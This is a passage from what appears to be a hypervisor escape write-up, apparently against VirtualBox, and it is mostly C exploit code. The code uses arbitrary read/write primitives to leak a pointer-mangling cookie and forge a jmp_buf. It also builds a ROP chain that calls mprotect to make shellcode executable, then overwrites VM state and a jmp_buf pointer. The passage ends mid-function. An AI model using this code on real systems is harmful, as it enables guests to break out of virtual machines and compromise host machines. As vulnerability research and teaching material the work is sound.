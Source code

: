 Next we prepare our `jmp_buf`, the ROP chain and shellcode:

```c
void pwn(void)
{
    ...

    uint64_t writable_memory = vcpu_addr - 0x2000;
    print_addr(writable_memory);
    jmp_buf_addr = writable_memory;
    uint64_t fake_stack = writable_memory + 0x100;
    uint64_t shellcode_addr = writable_memory + 0x1000;

    uint64_t fn_cookie = arb_read64(tls_bases[0] + fn_cookie_off);

    #define mangle_ptr(ptr) (_rotl((ptr ^ fn_cookie), 0x11))

    printk(KERN_WARN "Preparing jmp_buf with cookie: 0x%llx\n", fn_cookie);

    uint64_t rop_buf[] = {
        shellcode_addr, // rdi
        pop_rsi_gadget_off + libc_base,
        0x1000, // rsi
        pop_rdx_gadget_off + libc_base,
        0x7,
        mprotect_libc_off + libc_base,
        shellcode_addr
    };

    struct __jmp_buf jumper = {};
    memset(&jumper, 0x42, sizeof(jumper));
    jumper.__rip = mangle_ptr(pop_rdi_gadget_off + libc_base);
    jumper.__rsp = mangle_ptr(fake_stack);
    jumper.__rbp = mangle_ptr(fake_stack);

    printk(KERN_WARN "Writing jmp_buf\n");
    arb_write(jmp_buf_addr, &jumper, sizeof(jumper));

    printk(KERN_WARN "Writing rop_buf\n");
    arb_write(fake_stack, rop_buf, sizeof(rop_buf));

    printk(KERN_WARN "Writing shellcode_pwn\n");
    arb_write(shellcode_addr, shellcode_pwn, sizeof(shellcode_pwn));

    ...
}
```

Finally, we turn `fIemExecutesAll` on and overwrite the pointer to `jmp_buf`:

```c
void pwn(void)
{
    ...

    vcpu_jmp_buf = vcpu_addr + 0x738;
    vcpu2_jmp_buf = vcpu2_addr + 0x738;

    uint64_t vm_addr = arb_read64(vcpu_addr + 0x4880);
    // overwrite fIemExecutesAll
    arb_write64(vm_addr + 0xb000, 1 | (1 << 8));

    // you will see later
    do_finalize();
    // overwrite jmp_buf pointer
```